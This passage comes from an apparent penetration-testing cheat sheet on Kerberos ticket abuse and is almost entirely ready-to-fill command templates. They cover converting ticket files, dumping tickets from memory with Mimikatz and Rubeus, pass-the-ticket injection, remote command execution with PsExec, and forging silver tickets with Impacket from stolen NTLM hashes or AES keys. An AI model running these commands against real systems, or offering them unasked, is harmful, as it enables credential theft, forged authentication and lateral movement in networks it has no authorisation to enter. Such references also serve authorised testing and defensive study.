```bash
# ccache (Linux), kirbi (Windows from mimi/Rubeus) 
python3 ticket_converter.py $ticket.kirbi $ticket.ccache
python3 ticket_converter.py $ticket.ccache $ticket.kirbi
```

### From Windows

#### Using [Mimikatz](https://github.com/gentilkiwi/mimikatz) to export the tickets

```
sekurlsa::tickets /export
```

#### Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```bash
kerberos::ptt $kirbi_file
```

#### Using [Rubeus](https://github.com/GhostPack/Rubeus) with dump module

```
.\Rubeus dump
```

#### Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus) ptt module

```bash
.\Rubeus.exe ptt /ticket:$kirbi_file
```

#### Execute a command with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) after injecting the ticket

```bash
.\PsExec.exe -accepteula \\$host $command
```

## Silver ticket

Create an unlimited use ticket for a single service.  After generating a Silver ticket, follow the same instructions as above to use

### Using [Impacket](https://github.com/SecureAuthCorp/impacket) ticketer.py

```bash
# To generate the Silver Ticket with the NTLM hash
python ticketer.py -nthash $ntlm_hash -domain-sid $domain_sid -domain $domain -spn $service_spn $user

# To generate the Siver ticket with an AES key
python ticketer.py -aesKey $aes_key -domain-sid $domain_sid -domain $domain -spn $service_spn  $user
```

